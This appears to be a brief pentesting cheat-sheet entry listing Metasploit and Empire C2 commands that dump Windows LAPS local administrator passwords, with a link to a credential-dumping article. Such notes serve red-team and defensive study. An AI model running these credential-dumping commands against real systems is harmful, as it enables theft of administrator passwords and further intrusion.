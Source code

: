 # C2 Frameworks

## Metasploit

```
meterpreter > run post/windows/gather/credentials/enum_laps
```

## Empire

```
(Empire: AGENT_NAME) > usemodule credential/get_lapspasswords

(Empire: AGENT_NAME) > execute
```

---
## References

### Hacking Articles

- [Hacking Articles: Credential Dumping - LAPS](https://www.hackingarticles.in/credential-dumpinglaps/)